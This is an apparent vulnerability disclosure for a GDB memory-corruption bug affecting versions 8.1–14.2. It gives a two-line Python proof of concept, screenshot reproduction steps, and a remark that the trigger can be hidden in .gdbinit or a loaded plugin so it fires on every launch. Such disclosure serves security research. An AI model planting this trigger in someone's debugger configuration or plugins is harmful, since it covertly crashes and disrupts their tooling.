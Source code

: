 ## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted， memory out-of-bounds.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC-old

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```
The following is an outdated reproduction. I found that even without loading any binary program, the vulnerability can still be reproduced. If I write 'source /path/to/poc.py' in .gdbinit or even hide it within the plugin code loaded by the gdbinit file, it will cause the vulnerability to be triggered every time gdb is run.

And I will make the following changes below to provide a new reproduction.
## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file

![image-20240402211432774](./1.png)

### 2.run it and ctrl+c to stop it

![image-20240402211541005](./2.png)

### 3. source poc.py
We can see successful memory out-of-bounds access and corruption.
![image-20240402211613585](./3.png)

![image-20240402212709525](./4.png)

### 4. in Ubuntu

![image-20240402212845142](./5.png)

## POC-new
just run gdb and source the poc.
![image](https://github.com/N1nEmAn/wp/assets/118088443/4da536f9-3a63-4daf-88ef-073f21cca1d0)
